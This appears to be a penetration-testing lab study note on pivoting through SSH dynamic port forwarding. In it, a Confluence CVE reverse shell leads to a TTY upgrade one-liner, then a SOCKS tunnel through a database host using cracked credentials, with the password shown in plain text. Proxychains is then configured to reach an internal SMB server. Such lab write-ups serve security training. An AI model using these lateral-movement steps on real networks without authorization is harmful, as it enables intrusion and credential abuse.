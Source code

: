 
#### Scenario
- Socat isn't available on CONFLUENCE01
- Still have creds cracked from the *confluence* database
- Still no firewall blocking the port we bind to
- SSH into PGDATABASE01 with the _database_admin_ creds & see it's attached to another internal subnet (*ip addr,  routel*)
- Find a host w/ SMB server open (445) in that newly discovered subnet
- Kill SSH connection & setup Dynamic Port Forward
- Connect to SMB server ***AND*** do a full port scan on it

- CONFLUENCE01 - **192.168.233.63**
- PGDATABASE01 - **10.4.233.215**
- HRSHARES - **172.16.233.217**

![](ssh-tunnel-dynamic.png)

#### Execution

- As done previously, utilize the Confluence CVE to establish a reverse shell with CONFLUENCE01
- Upgrade TTY: `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- Assume all enumeration has been done and we've discovered all previously found data from previous sections

- Craft Dynamic Port Forwarding using SSH Tunneling through PGDATABASE01 to HRSHARES
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.233.215
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '10.4.233.215 (10.4.233.215)' can't be established.
	ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	database_admin@10.4.233.215's password: sqlpass123
```

> smbclient doesn't natively provide an option to use a SOCKS proxy, so we can't use it here.
> Will need to use [Proxychains](Tools.md#proxychains)
> - Tool that can force network traffic from third party tools over HTTP or SOCKS proxies & be configured to push traffic over a _chain_ of concurrent proxies.

- Edit config file to ensure that Proxychains can locate our SOCKS proxy port, and confirm that it's a SOCKS proxy
```bash
vim /etc/proxychains4.conf
	...
		[ProxyList]
	# add proxy here ...
	# meanwile
	# defaults set to "tor"
	# socks4  127.0.0.1 9050
	socks5 192.168.233.63 9999     #<-- NOTE: CONFLUENCE01 socket
```

> Rather than connecting to the port on CONFLUENCE01, we'll write the **smbclient** command as though we have a direct connection to PGDATABASE01
